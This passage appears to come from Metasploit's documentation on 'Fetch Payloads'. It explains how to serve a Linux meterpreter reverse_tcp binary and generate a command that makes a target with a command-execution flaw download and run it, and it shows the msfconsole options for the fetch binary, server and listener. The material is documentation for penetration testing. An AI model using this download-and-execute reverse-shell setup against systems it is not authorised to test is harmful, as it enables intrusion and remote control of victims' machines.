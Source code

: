 1. Create a `linux/x64/meterpreter/reverse_tcp` elf binary to be the served payload.
2. Serve the above served payload on an HTTPS server
3. Start a served payload handler for the served payload to call back to
4. Generate a command to execute on a remote host that will download the served payload and run it.


## A Simple Stand-Alone Example
The fastest way to understand Fetch Payloads is to use them and examine the output. For example, let's assume a Linux
target with the ability to connect back to us with  an HTTP connection and a command execution vulnerability.
First, let's look at the payload in isolation:
```msf
msf exploit(multi/ssh/sshexec) > use payload/cmd/linux/http/x64/meterpreter/reverse_tcp
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > show options

Module options (payload/cmd/linux/http/x64/meterpreter/reverse_tcp):

Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
FETCH_FILENAME      YXeSdwsoEfOH     no        Name to use on remote system when storing payload
FETCH_SRVHOST       0.0.0.0          yes       Local IP to use for serving payload
FETCH_SRVPORT       8080             yes       Local port to use for serving payload
FETCH_URIPATH                        no        Local URI to use for serving payload
FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload
LHOST                                yes       The listen address (an interface may be specified)
LPORT               4444             yes       The listen port


View the full module info with the info, or info -d command.

msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
```

### Options
`FETCH_COMMAND` is the binary we wish to run on the remote host to download the adapted payload.  Currently, the
supported options are `CURL FTP TFTP TNFTP WGET` on Linux hosts and `CURL TFTP CERTUTIL` on Windows hosts.  We'll get
into more details on the binaries later.

`FETCH_SRVHOST` is the IP where the server will listen.

`FETCH_SRVPORT` is the port where the server will listen.

`FETCH_URIPATH` is the URI corresponding to the payload file.  The default value is deterministic based on the
underlying payload so a payload created in msfvenom will match a listener started in Framework assuming the underlying
served payload is the same.
